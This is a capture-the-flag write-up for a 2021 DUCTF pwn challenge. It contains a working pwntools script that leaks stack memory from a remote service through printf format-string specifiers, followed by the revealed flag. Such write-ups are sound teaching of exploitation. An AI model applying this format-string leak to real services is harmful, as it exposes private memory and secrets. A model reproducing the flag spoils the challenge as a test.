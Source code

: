 #### Challenge:

This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add? [hellothere](./hellothere ":ignore")

`nc pwn-2021.duc.tf 31918`

---

#### Solution:

```python
#!/usr/bin/env python3

from pwn import *
from struct import *

r = remote('pwn-2021.duc.tf', 31918  )
# r = process('./hellothere')

print(r.recvuntil(b'?').decode('utf-8').strip())

secret = ""
for i in range(12, 22):
    r.sendline(('%' + str(i)+ '$lx').encode('utf-8'))
    msg = r.recvuntil(b'?').decode('utf-8').strip()
    msg = msg.split(',')[1].split('\n')[0].split(' ')[1]
    msg = ''.join([ msg[i:i+2] for i in range(0, len(msg), 2) ][::-1])
    try:
        secret += bytes.fromhex(msg).decode('utf-8')
    except:
        break

print(secret)
r.close()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

</details>
<br/>
